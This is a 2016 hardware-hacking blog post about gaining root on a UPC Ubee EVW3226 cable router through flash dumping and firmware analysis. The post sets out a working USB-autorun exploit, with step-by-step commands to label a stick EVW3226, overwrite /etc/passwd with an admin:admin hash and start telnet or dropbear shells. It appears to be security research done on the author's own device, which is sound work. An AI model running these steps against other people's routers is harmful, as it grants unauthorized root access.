 +++
Description = "UPC Ubee EVW3226 Fail"
title = "UPC Ubee EVW3226 Fail"
date = "2016-01-17T12:00:00+01:00"
metakeys = ["Ubee EVW3226", "UPC", "root shell", "hacking"]

+++

Inspired by [Blasty](https://twitter.com/bl4sty) and his [UPC Wifi key generator](https://haxx.in/upc-wifi/) I decided to take a look at my UPC router too. It's a **Ubee EVW3226** with a custom firmware by UPC providing a modified web interface and a lot of other stuff.

<!--more-->

First I tried to identify some debug pins on the board and found multiple possible UART connectors. I connected my [Buspirate](https://www.sparkfun.com/products/9544) to the first UART and got a login shell protected by a password. I tried some default passwords but was not able to get in so I needed to find another way. According to [another blog post](https://www.freeture.ch/?p=766) I found there is also a second UART connector with no password but this one was not working on my device.

So I took a deeper look at the chips on the board and identified two flash chips: *Spansion FL128PIF*. By looking at the [datasheet](http://www.spansion.com/Support/Datasheets/S25FL128P_00.pdf) I discovered there are some SPI pins on the chip to dump it's content (or write to it). So I attached a SOIC test clip on top of the flash chip and connected my [GoodFET](http://goodfet.sourceforge.net/) to it. Using the test clip is a good alternative because there is no need to desolder any chips. I was able to dump the whole 16MB memory of each chip using this method with `spiflash dump`. The address ranges to dump can be taken from the datasheet too.

The next thing to do was to extract the content of the dumped images. By using the latest development version of [binwalk](https://github.com/devttys0/binwalk) I was able to extract the file system contents of both chips. This dump only contains the firmware with no dynamic content from UPC so far so the running config is still missing.

After peeking around some binaries with IDA I found the following code in *aimDaemon*:

[![Extract Label](/img/ubee/extract_label_thumb.png)](/img/ubee/extract_label.png)

[![Extract Label](/img/ubee/check_label_thumb.png)](/img/ubee/check_label.png)

[![Extract Label](/img/ubee/execute_shell_thumb.png)](/img/ubee/execute_shell.png)

The snippets show the relevant code sections: The binary extracts the label of an external attached USB device and if it matches `EVW3226` it executes `/var/tmp/mount-usb.sh` with `go` as a first parameter.

`mount_usb.sh`:
```bash
#!/bin/bash
if [ $1 == "go" ]; then
  dev_path=$(blkid /dev/sd |cut -c 1-9)
  eval $(blkid /dev/sd |cut -d " " -f 2)
  eval $(blkid /dev/sd |cut -d " " -f 3)
  eval $(blkid /dev/sd |cut -d " " -f 4)
  echo "dev_path=\"$dev_path\" LABEL=\"$LABEL\" UUID=\"$UUID\" TYPE=\"$TYPE\"" >> /tmp/mountlist

  umount_folder=$(mount | grep "/var/tmp" | awk '{print $3}')
  for curr_folder in $umount_folder ; do
      if [ -n "$curr_folder"]; then
  		umount -l $curr_folder
          rm -fr $curr_folder
  	  fi
  done

  for curr_folder in $UUID ; do
    mkdir /var/tmp/media/$curr_folder -p
    if [ "$TYPE" == "ntfs" ]; then
      	echo "ntfs-3g "$dev_path" /var/tmp/media/"$curr_folder
      	ntfs-3g $dev_path /var/tmp/media/$curr_folder
    else
      	echo "mount "$dev_path" /var/tmp/media/"$curr_folder
      	mount $dev_path /var/tmp/media/$curr_folder
    fi
    if test -f /var/tmp/media/$curr_folder/.auto
	then
	    rm -fr /var/tmp/disk
	    cd /var/tmp
	    ln -s /var/tmp/media/$curr_folder disk
	   	chmod +x /var/tmp/media/$curr_folder/.auto
	   	sh /var/tmp/media/$curr_folder/.auto
	fi
    done
    if [ $2 == "1" ]; then
    	killall minidlna
    	/fss/fss2/sbin/minidlna -R -f /var/tmp/minidlna.conf
    fi
else
echo $1 ... >> /var/tmp/.usbadd
fi
```

As you may see this script mounts the usb stick and checks if the stick has a `.auto` file present. If the file exists a symbolic link to `/var/tmp/disk` is created and the `.auto` file is executed with `sh`.

So by creating an USB stick with the correct label and this autorun file we are able to execute any commands we like on the router.

The device is capable of running in router or in bridge mode. It looks like there is some check in place to only execute the script when running in `router` mode so be sure to switch to this mode if you want to try it on your own.

So lets first prepare our USB stick:

```bash
umount /dev/sdb1
fdisk /dev/sdb # clear partition table and create a new primary partition
mkfs.vfat /dev/sdb1
mlabel -i /dev/sdb1 ::EVW3226
```

Let's try to start a telnet server on the device by putting the following in the `.auto` file:

```bash
telnetd &
```

After plugging the stick in and waiting a few seconds I was able to connect via telnet. Unfortunately it seems some process is killing `telnetd` on a regular basis so it's no stable way to get access to the device.

Luckily there is also dropbear present so we can start a ssh server. The filesystem is missing the required hostkeys so I recreated them on a Ubuntu VM on the USB stick by

```bash
dropbearkey -t rsa -f /media/firefart/EVW3226/dropbear_rsa_host_key
```

As I was not able to crack the password hashes in a reasonable time we also need to add our own user. I did this by just overwriting `/etc/passwd` with an `admin:admin` hash.

So the final `.auto` file looks like

```bash
#!/bin/bash
echo admin:FvTuBQSax2MqI:0:0:admin,,,:/:/bin/sh > /etc/passwd
dropbear -r /var/tmp/disk/dropbear_rsa_host_key -p 192.168.0.1:22
```

After plugging in the USB-Stick and waiting a few seconds we can connect to the device using ssh and login using the password `admin`.

```bash
ssh admin@192.168.0.1
```

The next steps are to peek around the device. There are already a lot of passwords and private keys lying around in the firmware image.

There was also a great talk on 32C3 - [Beyond Your Cable Modem](https://media.ccc.de/v/32c3-7133-beyond_your_cable_modem) which gives some good ideas what to check next.
